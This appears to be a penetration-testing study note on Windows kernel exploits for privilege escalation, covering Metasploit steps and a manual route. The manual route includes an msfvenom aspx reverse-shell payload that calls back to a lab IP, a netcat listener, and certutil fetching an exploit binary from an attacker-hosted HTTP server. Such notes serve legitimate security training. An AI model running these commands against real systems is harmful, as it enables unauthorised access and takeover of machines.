


04._Kernel_Exploits

04. Kernel Exploits

## Overview:
Kernel:
- Computer program that controls everything in the system
- Facilitates interactions between hardware and software components
- A translator

List of windows kernel exploits: https://github.com/SecWiki/windows-kernel-exploits

### Escalation with Metasploit
https://seclists.org/fulldisclosure/2010/Jan/341 is the used exploit
- Get a meterpreter session
- `background` or control-z
- `search MS##-##`
- `use exploit/windows/local/STUFF`
- `sessions`
- `set session #`
- `set LHOST IP`
- `set LPORT 5555` # make sure it is different than the meterpreter port
- `run`
- You may need to run multiple times/change settings with `options` again

### Manual Escalation without Metasploit (uploading aspx file)
#### Getting a shell
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4444 -f aspx > manualshell.aspx`
- `nc -nvlp 4444` # Listening for shell
- Run the aspx file on the web server or whatever

#### Priv Escalation

- Search for exploits in google or https://github.com/SecWiki/windows-kernel-exploits
- Download, (compile,) run on machine!
- Transferring file:
	- `python -m SimpleHTTPServer 80` or `python3 -m http.server 80`
	- `certutil -urlcache -f http://10.10.14.25/MS10-059.exe ms.exe`